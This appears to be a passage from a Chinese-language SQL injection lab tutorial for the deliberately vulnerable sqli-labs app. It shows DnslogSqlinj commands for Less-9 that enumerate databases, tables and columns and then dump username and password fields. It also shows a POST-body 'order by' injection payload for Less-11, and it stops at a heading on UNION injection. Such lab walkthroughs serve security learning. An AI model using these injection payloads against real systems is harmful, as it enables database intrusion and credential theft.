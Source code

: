 ### 注入流程-Less-9

`DnslogSqlinj`使用方法于SQLMap几乎一致，使用`({})`标记payload的放置处

```
# 爆库
┌──(root㉿pinginglab)-[/home/pinginglab/DnslogSqlinj-master]
└─# python2.7 dnslogSql.py -u "http://192.168.1.102/sqli-labs-master/Less-9/?id=1' and ({})--+" --dbs
# 爆表
┌──(root㉿pinginglab)-[/home/pinginglab/DnslogSqlinj-master]
└─# python2.7 dnslogSql.py -u "http://192.168.1.102/sqli-labs-master/Less-9/?id=1' and ({})--+" -D "security" --tables
# 爆字段
┌──(root㉿pinginglab)-[/home/pinginglab/DnslogSqlinj-master]
└─# python2.7 dnslogSql.py -u "http://192.168.1.102/sqli-labs-master/Less-9/?id=1' and ({})--+" -D "security" -T "users" --columns
# 拖库
┌──(root㉿pinginglab)-[/home/pinginglab/DnslogSqlinj-master]
└─# python2.7 dnslogSql.py -u "http://192.168.1.102/sqli-labs-master/Less-9/?id=1' and ({})--+" -D "security" -T "users" -C "username,password" --dump
```

## POST注入-UNION注入

### 注入原理

POST注入和GET注入的原理相同，只是输入点不同

### 注入流程-Less-11

#### order by函数判断查询列数

查询列数为：2

```
passwd=admin' order by 2#&Submit=Submit&uname=admin
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606183034046.png" alt="image-20230606183034046" style="zoom:50%;" />

#### UNION 注入判断回显位
